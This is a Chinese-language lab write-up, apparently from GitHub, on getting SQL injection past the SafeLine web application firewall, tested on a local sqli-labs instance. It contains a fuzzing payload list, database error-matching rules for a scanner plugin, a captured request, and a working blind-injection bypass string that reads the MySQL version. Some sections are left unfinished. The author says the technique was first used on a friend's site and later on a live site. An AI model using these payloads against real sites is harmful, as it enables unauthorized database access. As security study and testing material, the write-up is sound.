









# 声明 
> 这只是主包个人一些学习笔记，这只是主包个人的理解，这只是主包个人的理解，这只是主包个人的理解，纯个人，纯个人，纯个人，没有任何其他意思，只是分享下自己的笔记，不喜勿喷，如侵权必删,谢谢!😭
# 前言 
之前帮朋友绕过了，现在自己遇到了同样的站了，记录一下，由于主包不会写这种东西，哪里不对的地方欢迎批评指正👿👿  
由于某些不可控因素，这里选择本地绕过做演示 🥵

## 环境准备 safeline && sqli-labs
由于主包已经装好了，这里就不多做赘述，密码那里最好记录一下，不然就会像主包一样只能重置密码 🤡  
```
bash -c "$(curl -fsSLk https://waf-ce.chaitin.cn/release/latest/manager.sh)"
git clone https://github.com/c0ny1/vulstudy.git
docker start $(docker ps -a -q)
```


## 启发式探索 smart-sqli && hae
这里主包当然是配合插件使用，然后就是联动hae  
  **smart-sqli 这是主包最常用的一个，当然可以补充的太多了，有更好的欢迎师傅们补充**  
```
0
åååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååå
#
'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
'+'
'%2b'
'-'
'*'
'/1--+
'%1--+
'
''
%27
"
""
)
)%23
')
'))
)'
))'
")
'%
"%
*
%dF')*'\"(
%Df")%\*'"(
!0
!false
exp()
exP()
`exp`()
exp.exp()
r.id
0exp()
```
**hae 师傅们可以自己加进规则，和自行补充其他规则，主包的只做参考**
```
(base--Mysql)
SQL syntax.*?MySQL
com.mysql.jdbc
MySQLSyntaxErrorException
valid MySQL result
your MySQL server version
MySqlClient
MySqlException
mysqli_num_rows() expects parameter
Duplicate entry .* for key 'group_key'
Subquery returns more
-----------------------------------------------------------
(base--Mssql)
Microsoft SQL Native Client error
Microsoft OLE DB Provider for SQL Server
ODBC SQL Server Driver
SQLServer JDBC Driver
macromedia.jdbc.sqlserver
com.microsoft.sqlserver.jdbc
转换成数据类型 int 时失败
------------------------------------------------------------
(base--Oracle)
ORA-\d{5}
Oracle error
nested exception is dm.jdbc.driver.DMException
------------------------------------------------------------
(base-Postgresql)
valid PostgreSQL result
PG::SyntaxError:
org.postgresql.jdbc
PSQLException
------------------------------------------------------------
(base--Access)
Microsoft Access
Access Database Engine
ODBC Microsoft Access
------------------------------------------------------------
(base--综合)
Unknown column '1or' in 'where clause'     
Unknown column '3' in 'order clause'        
XPATH syntax error                           
DOUBLE value is out of range in             
different number of columns
SQL syntax
java.sql.SQLSyntaxErrorException
Error SQL:
附近有语法错误
java.sql.SQLException
引号不完整
SQL Execution Error!
com.jnetdirect.jsql
DB2 SQL error
SQLite error
Sybase message
SybSQLException
SqlException exception
Unclosed quotation mark
ERROR: invalid input syntax for type
```
## 实战环节 attack && bypass
**模式切换**  
首先值得注意的是，safeline 个人版默认开启的防护模式是 "平衡防护"  
需要自定义配置为 "高强度防护" like this ⬇⬇⬇⬇

根据主包的实战经验，一般来说盲注才是最多情况，联合和报错注入最后也要用到盲注的相关语句，所以直接上盲注关

ok啊，也是直接抓到包了，哦不是抓后台的包，那没事了  
```
POST /Less-15/ HTTP/1.1
Host: {your-ip}
Content-Length: 39
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: keep-alive

uname=admin&passwd=123456&submit=Submit
```
### attack
首先看看smart-sqli 的效果   

| payload | response_code | length | hae  | images |
| --- | --- | --- | --- | --- |
| 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c | 403 | 15820 | safeline-waf |  |
| '%1--+ | 200 | 1642 |  |  |
| 0 | 200 | 1596 |  |  |

也是看到了确实存在注入啊，到了这里主包就只能给个最基本的payload了，当然都是可以出具体字符的，后面的就靠师傅们自己研究了  
### bypass 
**数据库版本 version**
```
false'||`char_length`(@@global.`version`)!=22||'
```

```
false'||`char_length`(@@global.`version`)!=23||'
```

**当前用户 user**
```
待定
```

**当前数据库 database**
```
待定
```
# 后续
> ok啊，这次分享就到这里了  
喜欢的师傅们记得点个赞，哦这里是star 求求惹！！ 😘😅